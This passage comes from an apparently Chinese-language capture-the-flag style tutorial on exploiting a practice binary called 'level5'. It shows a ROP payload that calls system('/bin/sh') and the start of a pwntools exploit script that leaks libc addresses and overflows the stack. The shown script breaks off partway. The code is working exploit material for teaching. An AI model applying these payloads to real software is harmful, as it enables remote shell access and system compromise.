 最后我们构造`payload3`,调用system()函数执行“/bin/sh”。注意，`system()的地址`保存在了`.bss段首地址`上，`“/bin/sh”的地址`保存在了`.bss段首地址+8`字节上。

``` python
#rdi=edi=r15, rsi=r14, rdx=r13
#system(rdi=bss_addr+8="/bin/sh\0")
payload3 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload3 += p64(0x400616) + p64(0) + p64(0) + p64(1) +p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr+8) + p64(0x400600)
payload3 += "\x00"*56
payload3 += p64(main_addr)
```

最终exp如下：

``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

write_got = elf.got['write']
print "write_got= " + hex(write_got)

read_got = elf.got['read']
print "read_got= " + hex(read_got)

main_addr = 0x400587

system_off_addr = libc.symbols['write'] - libc.symbols['system']
print "system_off_addr= " + hex(system_off_addr)

#rdi=edi=r15, rsi=r14, rdx=r13
#write(rdi=1,rsi=write_got,rdx=8)
payload1 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload1 += p64(0x400616) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(0x400600)
payload1 += "\x00"*56  #0x38
payload1 += p64(main_addr)

p.recvuntil("Hello, World\n")

print "\n################seding payload1################\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr= " + hex(write_addr)

system_addr = write_addr - system_off_addr
print "system_addr= " + hex(system_addr)

bss_addr = 0x601040


#rdi=edi=r15, rsi=r14, rdx=r13
#read(rdi=0,rsi=bss_addr,rdx=16)
```